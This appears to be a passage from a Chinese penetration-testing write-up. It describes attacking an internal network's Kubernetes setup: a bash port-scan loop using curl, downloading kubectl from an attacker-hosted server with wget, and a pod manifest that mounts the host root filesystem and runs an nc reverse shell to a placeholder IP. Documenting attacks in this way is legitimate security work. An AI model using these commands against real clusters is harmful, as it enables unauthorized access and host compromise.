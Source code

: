 2.  编译好的nmap工具，对文本中的IP进行扫描会报错，因为缺失文件。编写简单的shell脚本调用curl对端口探测，探测端口为集群组件的默认端口，代码如下：

```bash
#!/bin/bash
 
for i in $(cat AllHosts_up.txt)
do
        for j in 8080 10250 10255 6643 2379 30000 2375
           do
                curl $i:$j &>/dev/null
                    if [ $? -eq 0 ]; then
                           echo "$i 开放了 $j 端口"
                           echo "$i:$j" >> portScan.txt
                   else
                           echo "$i 未开放 $j 端口"
                   fi
           done
done
```
简单测试结果如下：
<div align="center"><img src="https://i.imgur.com/VcymRqG.png" width = "370" height = "270"  align=center /></div>


3. 在对A类网段探测过程中，发现有多个主机存在集群组件的默认端口。内网中开放了K8S API服务,且可以未授权访问。下载kubectl，对K8S API进行操作。访问 `https://dl.k8s.io/v1.9.3/kubernetes-client-linux-amd64.tar.gz` 下载文件至于服务器上，使用python开放http服务提供下载。执行如下命令：



    wget http://x.x.x.x/kubernetes-client-linux-amd64.tar.gz
    tar -zxvf kubernetes-client-linux-amd64.tar.gz
    cd kubernetes/client/bin
    chmod +x ./kubectl
    mv ./kubectl /usr/local/bin/kubectl

运行 kubectl version，返回版本信息，说明安装成功
<div align="center"><img src="https://i.imgur.com/3hOUoNM.png" width = "700" height = "135"  align=center /></div>

4. 通过kubectl创建pod并挂载根目录,执行反弹shell命令。yaml文件内容如下：


    apiVersion: v1
    kind: Pod
      metadata:
    name: test
    spec:
      containers:
      - name: busybox
        image: busybox:1.29.2
         command: ["/bin/sh"]
        args: ["-c", "nc ip port -e /bin/sh"]
        volumeMounts:
        - name: host
          mountPath: /mnt
      volumes:
      - name: host
        hostPath:
          path: /
          type: Directory
